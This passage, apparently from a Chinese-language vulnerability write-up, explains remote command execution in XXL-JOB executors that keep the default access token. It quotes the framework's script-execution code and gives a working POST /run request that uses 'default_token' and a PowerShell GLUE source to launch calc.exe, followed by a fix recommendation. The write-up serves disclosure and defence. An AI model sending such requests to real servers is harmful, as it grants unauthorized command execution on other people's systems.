				triggerParam = triggerQueue.poll(3L, TimeUnit.SECONDS);
				if (triggerParam!=null) {
					running = true;
					idleTimes = 0;
					triggerLogIdSet.remove(triggerParam.getLogId());

					// log filename, like "logPath/yyyy-MM-dd/9999.log"
					String logFileName = XxlJobFileAppender.makeLogFileName(new Date(triggerParam.getLogDateTime()), triggerParam.getLogId());
					XxlJobContext xxlJobContext = new XxlJobContext(
							triggerParam.getJobId(),
							triggerParam.getExecutorParams(),
							logFileName,
							triggerParam.getBroadcastIndex(),
							triggerParam.getBroadcastTotal());

					// init job context
					XxlJobContext.setXxlJobContext(xxlJobContext);

					// execute
					XxlJobHelper.log("<br>----------- xxl-job job execute start -----------<br>----------- Param:" + xxlJobContext.getJobParam());

					if (triggerParam.getExecutorTimeout() > 0) {
						// limit timeout
						Thread futureThread = null;
						try {
							FutureTask<Boolean> futureTask = new FutureTask<Boolean>(new Callable<Boolean>() {
								@Override
								public Boolean call() throws Exception {

									// init job context
									XxlJobContext.setXxlJobContext(xxlJobContext);

									handler.execute();
									return true;
								}
							});
							futureThread = new Thread(futureTask);
							futureThread.start();

							Boolean tempResult = futureTask.get(triggerParam.getExecutorTimeout(), TimeUnit.SECONDS);
						} catch (TimeoutException e) {

							XxlJobHelper.log("<br>----------- xxl-job job execute timeout");
							XxlJobHelper.log(e);

							// handle result
							XxlJobHelper.handleTimeout("job execute timeout ");
						} finally {
							futureThread.interrupt();
						}
					} else {
						// just execute
						handler.execute();
					}

					// valid execute handle data
					if (XxlJobContext.getXxlJobContext().getHandleCode() <= 0) {
						XxlJobHelper.handleFail("job handle result lost.");
					} else {
						String tempHandleMsg = XxlJobContext.getXxlJobContext().getHandleMsg();
						tempHandleMsg = (tempHandleMsg!=null&&tempHandleMsg.length()>50000)
								?tempHandleMsg.substring(0, 50000).concat("...")
								:tempHandleMsg;
						XxlJobContext.getXxlJobContext().setHandleMsg(tempHandleMsg);
					}
					XxlJobHelper.log("<br>----------- xxl-job job execute end(finish) -----------<br>----------- Result: handleCode="
							+ XxlJobContext.getXxlJobContext().getHandleCode()
							+ ", handleMsg = "
							+ XxlJobContext.getXxlJobContext().getHandleMsg()
					);

				} else {
					if (idleTimes > 30) {
						if(triggerQueue.size() == 0) {	// avoid concurrent trigger causes jobId-lost
							XxlJobExecutor.removeJobThread(jobId, "excutor idel times over limit.");
						}
					}
				}
			} catch (Throwable e) {
				if (toStop) {
					XxlJobHelper.log("<br>----------- JobThread toStop, stopReason:" + stopReason);
				}

				// handle result
				StringWriter stringWriter = new StringWriter();
				e.printStackTrace(new PrintWriter(stringWriter));
				String errorMsg = stringWriter.toString();

				XxlJobHelper.handleFail(errorMsg);

				XxlJobHelper.log("<br>----------- JobThread Exception:" + errorMsg + "<br>----------- xxl-job job execute end(error) -----------");
			} finally {
                if(triggerParam != null) {
                    // callback handler info
                    if (!toStop) {
                        // commonm
                        TriggerCallbackThread.pushCallBack(new HandleCallbackParam(
                        		triggerParam.getLogId(),
								triggerParam.getLogDateTime(),
								XxlJobContext.getXxlJobContext().getHandleCode(),
								XxlJobContext.getXxlJobContext().getHandleMsg() )
						);
                    } else {
                        // is killed
                        TriggerCallbackThread.pushCallBack(new HandleCallbackParam(
                        		triggerParam.getLogId(),
								triggerParam.getLogDateTime(),
								XxlJobContext.HANDLE_CODE_FAIL,
								stopReason + " [job running, killed]" )
						);
                    }
                }
            }
        }
        .......
```

​

从下面可以看到这里获取了系统命令行并将其赋值给cmd，随后将脚本进行写入文件并调用"ScriptUtil.execToFile(cmd, scriptFileName, logFileName, scriptParams);"来执行脚本文件

​

```
......   
    @Override
    public void execute() throws Exception {

        if (!glueType.isScript()) {
            XxlJobHelper.handleFail("glueType["+ glueType +"] invalid.");
            return;
        }

        // cmd
        String cmd = glueType.getCmd();

        // make script file
        String scriptFileName = XxlJobFileAppender.getGlueSrcPath()
                .concat(File.separator)
                .concat(String.valueOf(jobId))
                .concat("_")
                .concat(String.valueOf(glueUpdatetime))
                .concat(glueType.getSuffix());
        File scriptFile = new File(scriptFileName);
        if (!scriptFile.exists()) {
            ScriptUtil.markScriptFile(scriptFileName, gluesource);
        }

        // log file
        String logFileName = XxlJobContext.getXxlJobContext().getJobLogFileName();

        // script params：0=param、1=分片序号、2=分片总数
        String[] scriptParams = new String[3];
        scriptParams[0] = XxlJobHelper.getJobParam();
        scriptParams[1] = String.valueOf(XxlJobContext.getXxlJobContext().getShardIndex());
        scriptParams[2] = String.valueOf(XxlJobContext.getXxlJobContext().getShardTotal());

        // invoke
        XxlJobHelper.log("----------- script file:"+ scriptFileName +" -----------");
        int exitValue = ScriptUtil.execToFile(cmd, scriptFileName, logFileName, scriptParams);

        if (exitValue == 0) {
            XxlJobHelper.handleSuccess();
            return;
        } else {
            XxlJobHelper.handleFail("script exit value("+exitValue+") is failed");
            return ;
        }

    }
```

​

execuToFile脚本执行文件，完整代码如下，所以我们构造恶意命令并根据系统选择对应的执行脚本的方式(windows-powershell,linux-bin)，随后指定要执行的命令后端便调用创建相关的Job并将Job添加到队列中并调用系统的命令行来执行命令，从而实现RCE的目的~

```
  /**
     * 脚本执行，日志文件实时输出
     *
     * @param command
     * @param scriptFile
     * @param logFile
     * @param params
     * @return
     * @throws IOException
     */
    public static int execToFile(String command, String scriptFile, String logFile, String... params) throws IOException {

        FileOutputStream fileOutputStream = null;
        Thread inputThread = null;
        Thread errThread = null;
        try {
            // file
            fileOutputStream = new FileOutputStream(logFile, true);

            // command
            List<String> cmdarray = new ArrayList<>();
            cmdarray.add(command);
            cmdarray.add(scriptFile);
            if (params!=null && params.length>0) {
                for (String param:params) {
                    cmdarray.add(param);
                }
            }
            String[] cmdarrayFinal = cmdarray.toArray(new String[cmdarray.size()]);

            // process-exec
            final Process process = Runtime.getRuntime().exec(cmdarrayFinal);

            // log-thread
            final FileOutputStream finalFileOutputStream = fileOutputStream;
            inputThread = new Thread(new Runnable() {
                @Override
                public void run() {
                    try {
                        copy(process.getInputStream(), finalFileOutputStream, new byte[1024]);
                    } catch (IOException e) {
                        XxlJobHelper.log(e);
                    }
                }
            });
            errThread = new Thread(new Runnable() {
                @Override
                public void run() {
                    try {
                        copy(process.getErrorStream(), finalFileOutputStream, new byte[1024]);
                    } catch (IOException e) {
                        XxlJobHelper.log(e);
                    }
                }
            });
            inputThread.start();
            errThread.start();

            // process-wait
            int exitValue = process.waitFor();      // exit code: 0=success, 1=error

            // log-thread join
            inputThread.join();
            errThread.join();

            return exitValue;
        } catch (Exception e) {
            XxlJobHelper.log(e);
            return -1;
        } finally {
            if (fileOutputStream != null) {
                try {
                    fileOutputStream.close();
                } catch (IOException e) {
                    XxlJobHelper.log(e);
                }

            }
            if (inputThread != null && inputThread.isAlive()) {
                inputThread.interrupt();
            }
            if (errThread != null && errThread.isAlive()) {
                errThread.interrupt();
            }
        }
    }

```

#### 载荷构造

在我们有了调度中心和执行器之间交互使用的AccessToken凭据，而且也有了默认的示例接口以及相关的参数和执行脚本方式，下面便可以构造载荷进行调用了：

​

```
POST /run HTTP/1.1
Host: 192.168.204.137:9999
XXL-JOB-ACCESS-TOKEN: default_token
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "SERIAL_EXECUTION",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc.exe",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```



这里的任务阻塞策略可以按需进行选择，一般选择串行和覆盖替换维多，三种选项说明如下所示：

```
SERIAL_EXECUTION：串行执行，后续任务排队等待前序任务完成
DISCARD_LATER：丢弃后续任务，新任务被直接丢弃
COVER_EARLY：新任务替换队列中最早的任务
```

​



#### 修复建议

修改调度中心和执行器配置项 xxl.job.accessToken的默认值，同时禁止硬编码在配置文件中，同时需要注意设置相同的值，否则调度中心和执行器之间无法正常交互
